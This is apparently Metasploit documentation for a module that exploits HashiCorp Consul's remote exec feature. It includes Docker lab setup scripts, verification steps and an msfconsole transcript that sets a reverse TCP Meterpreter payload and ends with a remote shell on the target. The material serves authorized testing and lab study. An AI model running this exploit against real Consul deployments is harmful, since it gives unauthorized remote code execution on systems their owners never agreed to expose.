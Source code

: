 ## Vulnerable Application

[HashiCorp Consul](https://www.consul.io/) with `disable_remote_exec` configuration flag set to false (default configuration up to version 0.8, opt-in since version 0.9).

### Description

This module exploits a feature of Hashicorp Consul named rexec.

The exec command provides a mechanism for remote execution. For example, this can be used to run the uptime command across all machines providing the web service.

The exposure of rexec service depends on the `disable_remote_exec` option. This option was set to true starting from Consul 0.8, to make remote exec opt-in instead of opt-out.

### Test setup

The following bash script can be used to setup a testing environment with Docker:

```
#!/bin/sh

echo "[+] Launching consul instances..."
BOOTSTRAP_ID=`docker run -p8301:8301 -d --name=consul_bootstrap_server consul:latest agent -server -client=0.0.0.0 -bootstrap -data-dir /tmp/consul`
sleep 2
BOOTSTRAP_IP=`docker inspect --format '{{ .NetworkSettings.IPAddress }}' $BOOTSTRAP_ID`
docker run -d --name=consul_client_1 -e 'CONSUL_LOCAL_CONFIG={"leave_on_terminate": true, "enable_script_checks":true, "disable_remote_exec":false}' consul:latest agent -ui -client=0.0.0.0 -retry-join=$BOOTSTRAP_IP
echo "[+] Checking members..."
docker exec -t consul_bootstrap_server consul members -http-addr="$BOOTSTRAP_IP:8500"
```

You should observe something similar to the excerpt below when running the script:

```
sudo ./launch.sh
[+] Launching consul instances...
d28e7cf476ff2f148cad81a0b1959a7c67591c2e348c6172b6f463af66d1eb9a
[+] Checking members...
Node          Address          Status  Type    Build  Protocol  DC   Segment
38a7c1d93e7f  172.17.0.1:8301  alive   server  1.4.0  2         dc1  <all>
d28e7cf476ff  172.17.0.2:8301  alive   client  1.4.0  2         dc1  <default>
```

The following bash script can be used to stop and destroy **all your consul containers** (so be careful if you use consul containers for other things at the same time):

```
#!/bin/sh
for h in `sudo docker ps -a | grep consul | cut -d' ' -f1`; do docker stop $h && docker rm $h; done
```

## Verification Steps

You can verify the module against the vulnerable application with those steps:

  1. Launch a Consul cluster with the provided bash script
  2. Start msfconsole
  3. Do: `use exploit/multi/misc/consul_rexec_exec`
  4. Do: `set RHOST ip_of_consul_container`
  5. Do: `set RPORT 8500`
  6. Do: `check`. The target should appear vulnerable.
  7. Do: `set payload` with the payload of your choosing.
  8. Do: `set LHOST 172.17.42.1` (docker0 gateway IP)
  9. Do: `run`
  10. You should get a shell.

## Scenarios

### Reverse shell on Linux host

Exploit running against a Docker [consul](https://hub.docker.com/_/consul/) container target:

```
msf > use exploit/multi/misc/consul_rexec_exec
msf exploit(multi/misc/consul_rexec_exec) > set RHOSTS 172.17.0.4
RHOSTS => 172.17.0.4
msf exploit(multi/misc/consul_rexec_exec) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(multi/misc/consul_rexec_exec) > set LHOST 172.17.42.1
LHOST => 172.17.42.1
msf exploit(multi/misc/consul_rexec_exec) > check
[+] 172.17.0.4:8500 The target is vulnerable.
msf exploit(multi/misc/consul_rexec_exec) > run

[*] Started reverse TCP handler on 172.17.42.1:4444
[*] Creating session.
[*] Got rexec session ID b39ba52e-848d-9dc4-dc1e-e84760062335
[*] Setting command for rexec session b39ba52e-848d-9dc4-dc1e-e84760062335
[*] Triggering execution on rexec session b39ba52e-848d-9dc4-dc1e-e84760062335
[*] Sending stage (861480 bytes) to 172.17.0.4
[*] Cleaning up rexec session b39ba52e-848d-9dc4-dc1e-e84760062335
[*] Command Stager progress - 115.73% done (883/763 bytes)

meterpreter > sysinfo
Computer     : 172.17.0.4
OS           :  (Linux 4.4.0-38-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.17.0.4 - Meterpreter session 1 closed.  Reason: User exit
```
